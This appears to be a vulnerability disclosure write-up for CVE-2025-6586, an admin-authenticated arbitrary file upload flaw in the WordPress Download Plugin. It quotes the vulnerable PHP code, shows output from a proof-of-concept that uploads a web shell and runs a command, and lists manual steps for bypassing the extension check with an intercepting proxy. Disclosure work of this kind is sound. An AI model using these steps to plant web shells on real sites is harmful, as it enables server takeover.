 +++
title = 'Download Plugin <= 2.2.8 - Authenticated (Admin+) Arbitrary File Upload via the dpwap_plugin_locInstall Function'
date = 2025-07-03T00:00:00+00:00
hideToc = true
tags = ["CVE", "WordPress"]
description = "CVE-2025-6586: WordPress Download Plugin authenticated file upload vulnerability via dpwap_plugin_locInstall function."
+++
### CVE-2025-6586

The [Download Plugin](https://wordpress.org/plugins/download-plugin/) does not sanitize the file types of the `dpwap_plugin_locInstall` function
exposed via the `mul_upload` admin page, allowing administrators or above to upload arbitrary files and
potentially gain code execution on the server.

## TL;DR Exploits
A POC [cve-2025-6586.py](https://github.com/d0n601/CVE-2025-6586/blob/master/cve-2025-6586.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.
```
python3 cve-2025-6586.py https://lab1.hacker admin PASSWORD
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
Web Shell Location: https://lab1.hacker/wp-
content/uploads/dpwap_logs/files/tmp/shell.php

Executing test command: ip addr
    <pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN
group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
        valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
        valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
v       alid_lft 75221sec preferred_lft 75221sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic
mngtmpaddr noprefixroute
        valid_lft 86354sec preferred_lft 14354sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link
        valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
        valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link
        valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue
state DOWN group default
    link/ether 02:42:77:47:94:a5 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
        valid_lft forever preferred_lft forever
</pre>

```

## Details

The `dpwap_plugin_multiple_upload_func` function is exposed in the `mul_upload` admin page. On line [80](https://plugins.trac.wordpress.org/browser/download-plugin/trunk/app/Plugins/Base.php#L80) of `/wp-content/plugins/download-plugin/app/Plugins/Base.php` the function includes [multiple_upload_plugin.php](https://plugins.trac.wordpress.org/browser/download-plugin/trunk/app/Plugins/templates/multiple_upload_plugin.php).

```php
// multiple upload function
public function dpwap_plugin_multiple_upload_func()
{
$dpwapObj = new Dpwapuploader();
$plugin_multiple_upload_file = DPWAP_DIR . DS . 'app' . DS .
'Plugins' . DS . 'templates' . DS . 'multiple_upload_plugin.php';
include_once $plugin_multiple_upload_file;
}
```

By default the full path of $plugin_multiple_upload_file should be `/wp-
content/plugins/download-plugin/app/Plugins/templates/multiple_upload_plugin.php`.
The template will also check for a `$_POST['dpwap_locInstall']` and `$_FILES['dpwap_locFiles']['name'][0]`. If those are present it will call `$dpwapObj->dpwap_plugin_locInstall();` within the code that builds the html form on line [47](https://plugins.trac.wordpress.org/browser/download-plugin/trunk/app/Plugins/templates/multiple_upload_plugin.php#L47).

```php
...
...
<div class="inside">
    <?php
        if (isset($_POST['dpwap_locInstall']) && $_FILES['dpwap_locFiles']['name'][0] != ""){
        echo '<form id="form_alldpwap" name="form_alldpwap" method="post" action="admin.php?page=activate-status">';
        echo "<div class='dpwap_main'>";
        $dpwapObj->dpwap_plugin_locInstall();
        echo "</div>";
        echo '<input class="button button-primary dpwap_allactive"
type="submit" name="dpwap_locInstall" onclick="activateAllPLugins()"
value="'. esc_attr__('Activate all', 'download-plugin').'">';
        echo '</form>';
        }
    ?>
</div>
...
...
```

As seen below, the `dpwap_plugin_locInstall` function within `/wp-content/plugins/download-plugin/app/Plugins/Dpwapuploader.php` on line [300](https://plugins.trac.wordpress.org/browser/download-plugin/trunk/app/Plugins/Dpwapuploader.php#L300) will move the uploaded files to a web accessible directory, keeping the original file name and extension. Ex: `https://TARGETSITEDOMAIN/wp-content/uploads/dpwap_logs/files/tmp/shell.php`

```php
public function dpwap_plugin_locInstall(){
// Increase the resources
@ini_set( 'memory_limit', '1024M' );
@ini_set( 'upload_max_filesize', '640M' );
@ini_set( 'post_max_size', '640M' );
check_admin_referer( $this->key );
echo '<div class="dpwap_h3">'.esc_html__( 'Installing Plugins',
'download-plugin' ) .':</div>';
for ( $i = 0; $i < count( $_FILES['dpwap_locFiles']['name'] ); $i++
) {
$dpwap_locFilenm = sanitize_file_name($_FILES['dpwap_locFiles']
['name'][$i]);
if ( strpos( $dpwap_locFilenm, 'mpipluginsbackup' ) === false )
{
//Get the temp file path
$tmpFilePath = $_FILES['dpwap_locFiles']['tmp_name'][$i];
//Make sure we have a filepath
if ( $tmpFilePath != "" ) {
//Setup our new file path
$newFilePath =
DPWAPUPLOADDIR_PATH.'/dpwap_logs/files/tmp/' . $dpwap_locFilenm;
//Upload the file into the temp dir
if( @move_uploaded_file( $tmpFilePath, $newFilePath ) )
{
$dpwap_tempurls[] =
DPWAPUPLOADDIR_PATH.'/dpwap_logs/files/tmp/'.$dpwap_locFilenm;
}
}
}
else{
echo esc_html__('This is', 'download-plugin') .'
<b>'.esc_html($dpwap_locFilenm).'</b> '.esc_html__( 'not a valid zip
archive.', 'download-plugin' );
}
}
if( $dpwap_tempurls )
$this->dpwap_get_packages( $dpwap_tempurls, "activate", "nocreate",
"upload_locFiles" );
}
```


## Manual Reproduction
1. Login to the admin panel and navigate to `Plugins -> Add Plugin`.
2. Click the `Upload Multiple Plugins` at the top, this button is added to the UI by the [Download Plugin](https://wordpress.org/plugins/download-plugin/).
![0](/posts/images/cve-2025-6586/0.png)
3. Now from `/wp-admin/admin.php?page=mul_upload`, start BurpSuite or a similar proxy.
![1](/posts/images/cve-2025-6586/1.png)
4. Take a `php` file, and replace its extention with `zip` to pass the front end validation, and then click `Install Now`.
![2](/posts/images/cve-2025-6586/2.png)
5. Modify the intercepted request on the fly or in a Repeater tab to change the file extension back to `php`.
![3](/posts/images/cve-2025-6586/3.png)
6. Browse to the newly uploaded file to trigger code execution.
![4](/posts/images/cve-2025-6586/4.png)
